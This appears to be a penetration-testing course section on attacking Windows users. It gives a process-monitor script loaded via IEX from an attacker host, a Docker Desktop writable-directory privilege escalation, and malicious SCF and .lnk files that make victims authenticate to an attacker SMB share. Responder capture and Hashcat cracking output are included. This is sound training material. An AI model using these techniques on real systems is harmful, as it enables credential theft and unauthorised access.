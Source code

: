 # Attacking Users

## Process Command Lines

### Monitoring for Process Command Lines

When getting a shell as a user, there may be scheduled tasks or other
 processes being executed which pass credentials on the command line. We
 can look for process command lines using something like this script 
below. It captures process command lines every two seconds and compares 
the current state with the previous state, outputting any differences.

Interacting with Users

```
while($true){

  $process = Get-WmiObject Win32_Process | Select-Object CommandLine  Start-Sleep 1
  $process2 = Get-WmiObject Win32_Process | Select-Object CommandLine  Compare-Object -ReferenceObject $process -DifferenceObject $process2}

```

### Running Monitor Script on Target Host

We can host the script on our attack machine and execute it on the target host as follows.

Interacting with Users

```powershell
PS C:\htb> IEX (iwr 'http://10.10.10.205/procmon.ps1')

InputObject                                           SideIndicator
-----------                                           -------------
@{CommandLine=C:\Windows\system32\DllHost.exe /Processid:{AB8902B4-09CA-4BB6-B78D-A8F59079A8D5}} =>
@{CommandLine=“C:\Windows\system32\cmd.exe” }                          =>
@{CommandLine=\??\C:\Windows\system32\conhost.exe 0x4}                      =>
@{CommandLine=net use T: \\sql02\backups /user:inlanefreight\sqlsvc My4dm1nP@s5w0Rd}       =>
@{CommandLine=“C:\Windows\system32\backgroundTaskHost.exe” -ServerName:CortanaUI.AppXy7vb4pc2... <=

```

This is successful and reveals the password for the `sqlsvc`
 domain user, which we could then possibly use to gain access to the 
SQL02 host or potentially find sensitive data such as database 
credentials on the `backups` share.

---

## Vulnerable Services

We may also encounter situations where we land on a host running a 
vulnerable application that can be used to elevate privileges through 
user interaction. [CVE-2019–15752](https://medium.com/@morgan.henry.roman/elevation-of-privilege-in-docker-for-windows-2fd8450b478e)
 is a great example of this. This was a vulnerability in Docker Desktop 
Community Edition before 2.1.0.1. When this particular version of Docker
 starts, it looks for several different files, including `docker-credential-wincred.exe`, `docker-credential-wincred.bat`, etc., which do not exist with a Docker installation. The program looks for these files in the `C:\PROGRAMDATA\DockerDesktop\version-bin\`. This directory was misconfigured to allow full write access to the `BUILTIN\Users` group, meaning that any authenticated user on the system could write a file into it (such as a malicious executable).

Any executable placed in that directory would run when a) the Docker 
application starts and b) when a user authenticates using the command `docker login`.
 While a bit older, it is not outside the realm of possibility to 
encounter a developer's workstation running this version of Docker 
Desktop, hence why it is always important to thoroughly enumerate 
installed software. While this particular flaw wouldn't guarantee us 
elevated access (since it relies on a service restart or user action), 
we could plant our executable during a long-term assessment and 
periodically check if it runs and our privileges are elevated.

---

## SCF on a File Share

A Shell Command File (SCF) is used by Windows Explorer to move up and
 down directories, show the Desktop, etc. An SCF file can be manipulated
 to have the icon file location point to a specific UNC path and have 
Windows Explorer start an SMB session when the folder where the .scf 
file resides is accessed. If we change the IconFile to an SMB server 
that we control and run a tool such as [Responder](https://github.com/lgandx/Responder), [Inveigh](https://github.com/Kevin-Robertson/Inveigh), or [InveighZero](https://github.com/Kevin-Robertson/InveighZero),
 we can often capture NTLMv2 password hashes for any users who browse 
the share. This can be particularly useful if we gain write access to a 
file share that looks to be heavily used or even a directory on a user's
 workstation. We may be able to capture a user's password hash and use 
the cleartext password to escalate privileges on the target host, within
 the domain, or further our access/gain access to other resources.

### Malicious SCF File

In this example, let's create the following file and name it something like `@Inventory.scf` (similar to another file in the directory, so it does not appear out of place). We put an `@`
 at the start of the file name to appear at the top of the directory to 
ensure it is seen and executed by Windows Explorer as soon as the user 
accesses the share. Here we put in our `tun0` IP address and any fake share name and .ico file name.

Interacting with Users

```
[Shell]
Command=2
IconFile=\\10.10.14.3\share\legit.ico
[Taskbar]
Command=ToggleDesktop

```

### Starting Responder

Next, start Responder on our attack box and wait for the user to 
browse the share. If all goes to plan, we will see the user's NTLMV2 
password hash in our console and attempt to crack it offline.

Interacting with Users

```
doshim@htb[/htb]$ sudo responder -wrf -v -I tun0                                         __
  .----.-----.-----.-----.-----.-----.--|  |.-----.----.
  |   _|  -__|__ --|  _  |  _  |     |  _  ||  -__|   _|
  |__| |_____|_____|   __|_____|__|__|_____||_____|__|
                   |__|

           NBT-NS, LLMNR & MDNS Responder 3.0.2.0

  Author: Laurent Gaffie (laurent.gaffie@gmail.com)
  To kill this script hit CTRL-C

[+] Poisoners:
    LLMNR                      [ON]
    NBT-NS                     [ON]
    DNS/MDNS                   [ON]

[+] Servers:
    HTTP server                [ON]
    HTTPS server               [ON]
    WPAD proxy                 [ON]
    Auth proxy                 [OFF]
    SMB server                 [ON]
    Kerberos server            [ON]
    SQL server                 [ON]
    FTP server                 [ON]
    IMAP server                [ON]
    POP3 server                [ON]
    SMTP server                [ON]
    DNS server                 [ON]
    LDAP server                [ON]
    RDP server                 [ON]

[+] HTTP Options:
    Always serving EXE         [OFF]
    Serving EXE                [OFF]
    Serving HTML               [OFF]
    Upstream Proxy             [OFF]

[+] Poisoning Options:
    Analyze Mode               [OFF]
    Force WPAD auth            [OFF]
    Force Basic Auth           [OFF]
    Force LM downgrade         [OFF]
    Fingerprint hosts          [ON]

[+] Generic Options:
    Responder NIC              [tun2]
    Responder IP               [10.10.14.3]
    Challenge set              [random]
    Don't Respond To Names     ['ISATAP']

[!] Error starting SSL server on port 443, check permissions or other servers running.
[+] Listening for events...
[SMB] NTLMv2-SSP Client   : 10.129.43.30
[SMB] NTLMv2-SSP Username : WINLPE-SRV01\Administrator
[SMB] NTLMv2-SSP Hash     : Administrator::WINLPE-SRV01:815c504e7b06ebda:afb6d3b195be4454b26959e754cf7137:01010...<SNIP>...

```

### Cracking NTLMv2 Hash with Hashcat

We could then attempt to crack this password hash offline using `Hashcat` to retrieve the cleartext.

Interacting with Users

```
doshim@htb[/htb]$ hashcat -m 5600 hash /usr/share/wordlists/rockyou.txthashcat (v6.1.1) starting...

<SNIP>

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

ADMINISTRATOR::WINLPE-SRV01:815c504e7b06ebda:afb6d3b195be4454b26959e754cf7137:01010...<SNIP>...:Welcome1

Session..........: hashcat
Status...........: Cracked
Hash.Name........: NetNTLMv2
Hash.Target......: ADMINISTRATOR::WINLPE-SRV01:815c504e7b06ebda:afb6d3...000000
Time.Started.....: Thu May 27 19:16:18 2021 (1 sec)
Time.Estimated...: Thu May 27 19:16:19 2021 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  1233.7 kH/s (2.74ms) @ Accel:1024 Loops:1 Thr:1 Vec:8Recovered........: 1/1 (100.00%) Digests
Progress.........: 43008/14344385 (0.30%)
Rejected.........: 0/43008 (0.00%)
Restore.Point....: 36864/14344385 (0.26%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1Candidates.#1....: holabebe -> harderStarted: Thu May 27 19:16:16 2021
Stopped: Thu May 27 19:16:20 2021

```

Note: In our example, wait 2-5 minutes for the "user" to browse the share after starting Responder.

---

## Capturing Hashes with a Malicious .lnk File

Using SCFs no longer works on Server 2019 hosts, but we can achieve the same effect using a malicious [.lnk](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-shllink/16cb4ca1-9339-4d0c-a68d-bf1d6cc0f943) file. We can use various tools to generate a malicious .lnk file, such as [Lnkbomb](https://github.com/dievus/lnkbomb), as it is not as straightforward as creating a malicious .scf file. We can also make one using a few lines of PowerShell:

### Generating a Malicious .lnk File

Interacting with Users

```powershell
$objShell = New-Object -ComObject WScript.Shell$lnk = $objShell.CreateShortcut("C:\legit.lnk")$lnk.TargetPath = "\\<attackerIP>\@pwn.png"$lnk.WindowStyle = 1$lnk.IconLocation = "%windir%\system32\shell32.dll, 3"$lnk.Description = "Browsing to the directory where this file is saved will trigger an auth request."$lnk.HotKey = "Ctrl+Alt+O"$lnk.Save()
```

Try out this technique on the target host to familiarize yourself 
with the methodology and add another tactic to your arsenal for when you
 encounter environments where Server 2019 is prevalent.